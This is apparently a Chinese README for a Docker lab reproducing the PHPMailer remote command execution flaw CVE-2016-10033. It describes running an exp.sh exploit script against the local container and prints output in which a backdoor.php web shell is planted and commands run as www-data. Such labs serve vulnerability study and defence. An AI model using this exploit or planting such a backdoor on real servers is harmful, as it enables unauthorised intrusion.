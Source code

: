 ## PHPMailer < 5.2.18 远程命令执行漏洞环境 (CVE-2016-10033)

### 说明

本环境基于 [PHPMailer < 5.2.18 Remote Code Execution exploit and vulnerable container](https://github.com/opsxcq/exploit-CVE-2016-10033) 修改

### 漏洞信息

 PHPMailer 是一个强大的 PHP 编写的邮件发送类，使用它可以更加便捷的发送邮件，并且还能发送附件和 HTML 格式的邮件，同时还能使用 SMTP 服务器来发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞发现者：Dawid Golunski

### 影响版本

PHPMailer < 5.2.18

### 镜像信息

类型 | 值
:-:|:-:
网站物理路径 | `/var/www/html/`


### 获取环境:

 ```
$ docker-compose up -d
 ```
 访问 8000 看到表单界面代表启动成功

### Exp

Exp 使用方法：

```
$ ./exp.sh host:port
```

假设容器启动后访问的地址为：http://127.0.0.1:8000/

```
$ ./exp.sh 127.0.0.1:8000
```

执行完后耐心等待一会（比较慢，大概2分钟以内），就会向服务器中写入 backdoor.php 文件(写入的物理路径见`exp.sh`,默认写入到`/var/www/html/`目录下)，然后就看到如下输出：

```
➜ ./exp.sh 127.0.0.1:8000
[+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 127.0.0.1:8000
[+] Target exploited, acessing shell at http://127.0.0.1:8000/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami
www-data
RemoteShell> id
[+] Running id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 相关链接

* [PHPMailer < 5.2.18 Remote Code Execution](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)
* [PHPMailer 命令执行漏洞（CVE-2016-10033）分析——长亭科技](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)
* [PHPMailer < 5.2.18 Remote Code Execution exploit and vulnerable container](https://github.com/opsxcq/exploit-CVE-2016-10033)
